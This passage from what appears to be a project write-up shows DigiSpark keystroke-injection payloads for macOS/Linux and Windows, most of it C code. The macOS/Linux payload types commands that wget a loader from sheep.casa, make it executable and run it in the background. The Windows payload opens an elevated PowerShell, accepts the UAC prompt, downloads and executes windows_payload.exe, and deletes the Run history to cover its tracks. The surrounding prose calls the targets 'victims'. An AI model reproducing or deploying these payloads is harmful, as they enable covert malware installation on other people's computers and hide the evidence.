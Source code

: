 ```c
  DigiKeyboard.print("bash");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("disown $!");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_Q, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
}

void loop() {

}
```

As you can see above, is very similar to what we've used to exploit Linux machines. The major difference is the way the terminal is opened. We've had to modify our OSX version to use `DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);`, which will open Spotlight search. The code will delay for .5 seconds, and search "terminal", delay for .5 seconds, and press enter, opening the terminal.

After this, in order to ensure we aren't using Z Shell, we'll enter `bash`. From this point on the rest of the code is exactly the same as our Linux payload. It too downloads `linux_loader`, which downloads and runs `linux_payload.py`.  


### Windows
Below is the DigiSpark payload we developed to infect Windows victims.
```c
#include "DigiKeyboard.h"

void setup()
{
  pinMode(1, OUTPUT); //LED on Model A
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("powershell Start-Process powershell -Verb runAs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("$down = New-Object System.Net.WebClient; $url = 'https://sheep.casa/payloads/windows_payload.exe'; $file = 'windows_payload.exe'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file); exit;");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  // Clear run command history
  DigiKeyboard.println("reg delete HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\RunMRU /va /f");
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  digitalWrite(1, HIGH);
}
```
